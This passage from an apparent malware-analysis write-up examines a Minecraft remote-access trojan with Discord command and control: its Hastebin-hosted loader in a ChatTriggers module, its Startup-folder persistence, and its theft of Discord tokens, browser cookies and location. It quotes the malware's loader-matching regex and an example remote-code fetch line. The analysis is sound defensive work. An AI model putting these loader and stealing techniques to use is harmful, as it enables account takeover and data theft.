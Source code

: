 Now that we've established Discord's role in the infrastructure of the attack, let's examine how the malware works.

## Infection Vector
The `ogdelete` command is supposed to "Remove[s] the injector script from the file it was injected into." The command uses the following regular expression to search through the Minecraft modules directory:
```
/Function\s*$$ .*?FileLib\s*\.\s*getUrlContent\s*\(\s*['"]https:\/\/hst\.sh\/raw\/[^'"]+['"]\s* $$.*?\)\s*$$ \s* $$\s*;/
```

With this, there are two pretty interesting strings in the expression. First, it appears to be searching for a string similar to `FileLib.getUrlContent("https://hst.sh/raw/abc123")`. `hst.sh` is the domain for `Hastebin`, the "prettiest, easiest to use pastebin ever made."[^12] They allow anyone to anonymously upload code to their site and access it from there. Secondly, the `FileLib.getUrlContent` seems to come from ChatTriggers, a framework for Minecraft Forge that allows for mods to be written in languages such as JavaScript.[^13][^14] This coincides with how the malware targets other ChatTriggers modules in the `modules` and `modulespath` commands. The documentation for the function can be found [here](https://chattriggers.com/javadocs/-chat-triggers/com.chattriggers.ctjs.minecraft.libs/-file-lib/get-url-content.html).

What this likely means is that the loader is in a malicious ChatTriggers module, which, when executed on the victim's PC, reaches out to a Hastebin post and downloads it, then runs the code. This, along with the fact that the sample was originally encountered via a Hastebin link, solidifies the theory that this sample is retrieved by `FileLib.getUrlContent`. The `ogdelete` command then attempts to hide this loader.

Now that we understand how the malware is deployed, let's look at what it can do on the system.
## Functionalities
### Persistence
This malware gains persistence via a batch script located at `\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\mc_persist.bat` in the specific user's directory. While the malware includes a command to turn off persistence, it does not include any commands to enable it.

![the command that stops persistence](/assets/img/just-another-minecraft-rat/persistence.png)

We also see some persistence in the `inputblock` command, which we'll dive into further later in the article.

### Infostealing 
The main function of the malware is its ability to steal information from the victim. After the bot steals the information, it sends it back to a Discord server for the attackers to view. 

- The `getdiscord` command extracts the `Local Storage` and `Session Storage` directories from the victim's computer and sends them back to the Discord server. The `Local Storage` directory is a LevelDB database containing the Discord account token, a sensitive credential that can be used to impersonate the user.[^10]
- The `detectbrowsers` command just checks to see if the user has one or more of the following browsers installed: Chrome, Opera GX, Firefox, Microsoft Edge, Safari, and Brave.
- `getlogincookies` does exactly as the name implies. Interestingly enough, it supports more browsers than the `detectbrowsers` command. It includes all of those browsers as well as Vivaldi. For the Chromium browsers, it zips and exfiltrates the `Local State` file, and the `Cookies`, `History`, and `Browser Data` files.
- The `info` command exfiltrates the following data from the victim's system:
	- Minecraft Username
	- IP Address
	- Location
		- City
		- Region
		- Country
		- Latitude
		- Longitude

[^1]: https://en.wikipedia.org/wiki/Discord
[^2]: https://en.wikipedia.org/wiki/Discord#Developer_tools_and_bots
[^3]: https://docs.statbot.net/docs/guide/bot/
[^4]: https://yoyofumedia.com/rise-of-discord/
[^5]: https://www.techradar.com/news/this-nasty-trojan-uses-discord-as-a-command-and-control-server
[^6]: https://thehackernews.com/2024/01/ns-stealer-uses-discord-bots-to.html
[^7]: https://www.ibm.com/think/x-force/self-checkout-discord-c2
[^8]: https://github.com/Harry282/FunnyMap
[^9]: https://skyblockmods.net/mods/oringo-client
[^10]: https://www.clrn.org/what-to-do-if-someone-has-your-discord-token/
[^11]: https://www.howtogeek.com/321581/what-is-client-server-runtime-process-csrss.exe-and-why-is-it-running-on-my-pc/
[^12]: https://hst.sh/about.md
[^13]: https://chattriggers.com/slate/#introduction
[^14]: https://chattriggers.com/javadocs/-chat-triggers/com.chattriggers.ctjs.minecraft.libs/-file-lib/get-url-content.html